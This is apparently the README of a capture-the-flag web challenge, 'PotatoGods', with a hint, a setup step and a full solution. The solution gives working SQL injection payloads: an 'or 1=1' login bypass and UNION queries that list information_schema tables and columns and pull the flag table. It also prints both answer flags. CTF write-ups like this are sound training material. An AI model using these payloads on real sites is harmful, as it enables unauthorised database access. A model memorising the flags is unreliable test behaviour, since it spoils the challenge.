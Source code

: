 # PotatoGods

## Question Text

I built this really amazing website for my favourite food, POTATOES! I'm veryyyy sure it's secure. Prove me wrong :D

`http://web.chal.gryphonctf.com:18704`

*Creator - whoami*

### Hints (Optional)

Injections are fun!



## Setup Guide

Run `./build.sh`



## Solution

Both text fields are vulnerable to SQL injection

Level 1 - `a' or '1' = '1 `. Simple SQL Injection to get the database to return the queries

Level 2 :

- Another form of SQL Injection which requires knowledge of how to list all tables and columns. 3 commands are required to get the flag. 

- `1' union select TABLE_SCHEMA, TABLE_NAME from information_schema.tables #` To list all tables in the database. As the SQL statement would only retrieve 2 columns, only 2 columns can be specified in the statement
- `1' union select table_name, column_name from information_schema.columns where table_name = 'flaggyflagflagnotgonnaspotthis' #` Table name 'flaggyflagflagnotgonnaspotthis' can be found by running the previous statement
- `1' union select flagid, flag from flaggyflagflagnotgonnaspotthis #` To retrieve the flag



Flags: 

Level 1 - `GCTF{A1way5_5aN1t1Z3_1nPut5}`

Level 2 - `GCTF{SQ1_15_5uP3R_53cUR3}`